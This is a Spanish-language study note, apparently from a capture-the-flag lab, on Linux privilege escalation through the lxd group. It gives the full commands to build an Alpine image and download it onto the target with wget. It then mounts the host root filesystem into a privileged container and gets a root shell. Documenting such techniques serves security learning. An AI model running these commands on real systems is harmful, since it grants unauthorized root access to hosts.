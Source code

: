 #lxd

------

Nota de [[lxd]]

[Articulo hacktricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.html)

Para descargar la imagen y crearla en nuestra maquina
```
git clone https://github.com/saghul/lxd-alpine-builder  
cd lxd-alpine-builder  
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine  
/////// Este comando modifica el script `build-alpine` para que use una **versión específica de Alpine** (en este caso, `v3.8`) en vez de la última (`latest-stable`). Esto es útil si estás trabajando con arquitecturas antiguas como `i686`, que ya no se soportan en las últimas versiones de Alpine.(Esto seria 32 bits)
sudo ./build-alpine -a i686  //Esto es para crear la imagen ya configurada en formato .tar.gz
```
Despues nos pusimos en escucha con [[python3 -m http.server]] . Y desde la maquina victima con `wget 10.10.14.8:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz` descargamos la imagen

#### Ahora para levantar el contenedor:
```shell
lxc image import ./alpine*.tar.gz --alias myimage     //Importa la imagen con nombre alpine y le da el nombre ed imagen myimage
lxd init             //inicia lxd si nunca se habia hecho antes
lxc init myimage mycontainer -c security.privileged=true     // el parametro de -c security.privileged=true  hace que se ejecute como root
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true    // Explicado abajo de todo en notas
lxc start mycontainer  //Prende el contenedor
lxc exec mycontainer /bin/bash        //Entra al contenedor con el binario /bin/bash
```
Una vez hecho esto ya podemos ya podemos catear las flags por que somos root

![[Included13.png]]

--------

# Notas

### 🔍 Parámetros explicados:
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

| Parte                   | Significado                                                                                                              |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------ |
| `lxc config device add` | Agrega un **dispositivo virtual** al contenedor (en este caso, un disco/directorio).                                     |
| `mycontainer`           | Es el **nombre del contenedor** al que se lo estás agregando.                                                            |
| `mydevice`              | Es un **nombre arbitrario** para el dispositivo que estás montando (podés ponerle otro nombre si querés).                |
| `disk`                  | Indica que estás agregando un **dispositivo de tipo disco** (puede ser un directorio, un disco real o virtual).          |
| `source=/`              | El **directorio del host** que querés montar (en este caso, la raíz del sistema `/`).                                    |
| `path=/mnt/root`        | La **ruta dentro del contenedor** donde aparecerá ese contenido (en este caso, el host estará accesible en `/mnt/root`). |
| `recursive=true`        | Hace que el montaje incluya **todos los subdirectorios y sus contenidos** de forma recursiva.                            |
